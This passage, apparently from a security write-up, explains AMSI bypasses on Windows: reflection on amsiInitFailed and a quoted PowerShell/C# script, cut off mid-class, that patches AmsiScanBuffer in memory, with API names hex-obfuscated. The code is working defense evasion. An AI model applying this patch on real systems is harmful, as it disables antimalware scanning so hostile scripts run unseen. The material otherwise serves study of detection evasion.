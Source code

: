 The `amsiInitFailed` property is not directly exposed due to the fact that the it's declared private, but thanks to the [.NET Reflection API](https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/reflection) we can access it.
By setting it at `$true` we can successfully disable AMSI and `amsi.dll`'s `AmsiScanBuffer` won't be called anymore.

### Patching AmsiScanBuffer

It's also possible to _monkeypatch_ at runtime the `amsi.dll` code. In particular, we are interested in patching the function `AmsiScanBuffer`. We can overwrite the logic of this function by making them always return `S_OK`, as when the command is allowed to run. [7]

In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest `C#` version embedded in a `.ps1` script, taken from [decoder](https://decoder.cloud)'s [powershellveryless](https://github.com/decoder-it/powershellveryless). [20] [21]

```powershell
# Add-Type writes *.cs on disk!!
$id = get-random;
$Ref = (
    "System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "System.Runtime.InteropServices, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"
);

$Source = @"
using System;
using System.Runtime.InteropServices;
namespace Bypass
{
    public class AMSI$id
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);

        public static int Disable()
        {
            string hexbuffer = "41;6d;73;69;53;63;61;6e;42;75;66;66;65;72";
            string hexdllbuffer = "61;6d;73;69;2e;64;6c;6c";

            string buf1=FromHexBuffer(hexdllbuffer);
            string buf2=FromHexBuffer(hexbuffer);
            IntPtr Address = GetProcAddress(LoadLibrary(buf1), buf2);

            UIntPtr size = (UIntPtr)5;
            uint p = 0;

            VirtualProtect(Address, size, 0x40, out p);
            byte c1=0xB8,c2=0x80;

            Byte[] Patch = {c1, 0x57, 0x00, 0x07, c2, 0xC3 };
            IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
            Marshal.Copy(Patch, 0, unmanagedPointer, 6);
            MoveMemory(Address, unmanagedPointer, 6);

            return 0;
        }
```